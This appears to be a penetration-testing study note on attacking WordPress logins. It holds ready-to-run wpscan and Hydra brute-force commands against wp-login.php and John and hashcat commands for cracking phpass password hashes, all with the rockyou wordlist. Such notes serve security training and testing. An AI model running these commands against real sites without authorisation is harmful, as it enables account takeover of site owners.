 ```yaml
---
title: Wordpress
parent: Web Passwords
layout: default
nav_order: 2
---
```


1. `wpscan --usernames admin --passwords /usr/share/seclists/rockyou.txt --max-threads 50 --url IP/xxx `
   (admin can be wordlist as well, and xxx can be blog or something)
2. OR use Hydra: should be faster:\
   `hydra -l admin -P /usr/share/seclists/rockyou.txt IP -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`\
   (For the testcookie part, check in source code for the login page. for eg in this case <input type="hidden" name="testcookie" value="1" />)
3. If you have hash(`$P$B....`), can put in format user:hash (`\\\` is to escape a single `/`):\
   `john hash.txt --wordlist=/usr/share/seclists/rockyou.txt --format=phpass`
4. Can use hashcat also (but the hash format only can have hash, no username):\
   `hashcat -m 400 -a 0 wp.hash /usr/share/seclists/rockyou.txt`